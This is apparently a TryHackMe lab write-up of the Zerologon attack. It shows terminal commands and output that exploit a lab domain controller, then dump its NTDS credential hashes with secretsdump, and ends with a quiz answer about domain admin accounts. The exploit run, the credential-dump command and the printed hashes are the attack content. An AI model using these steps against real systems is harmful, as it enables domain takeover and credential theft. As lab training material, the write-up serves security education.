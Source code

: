 #### Activate Venv 

```bash 
source impacketEnv/bin/activate

(impacketEnv) ┌─[✗]─[mentor@attackerVM]─[~/thm/zer0login]
└──╼ $python3 zeroLogon.py DC01 10.10.129.187

 _____                   __                         
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \ 
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/             
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz
  
Performing authentication attempts...
Failure to Autheticate at attempt number: 28
Failure to Autheticate at attempt number: 86
Zero Logon successfully exploited, changing password.
```

### Password dumping:

```bash
╼ $secretsdump.py -just-dc -no-pass DC01\$@10.10.129.187
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:"3f3ef89114fb063e3d7fc23c20f65568":::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::

[snip]
[*] Cleaning up... 
```

---

### How many Domain Admin accounts are there?
#### ANS:  2



**Explaination**

Naming policy, Administrator accounts are having 'A-' as Firt initial. 


---
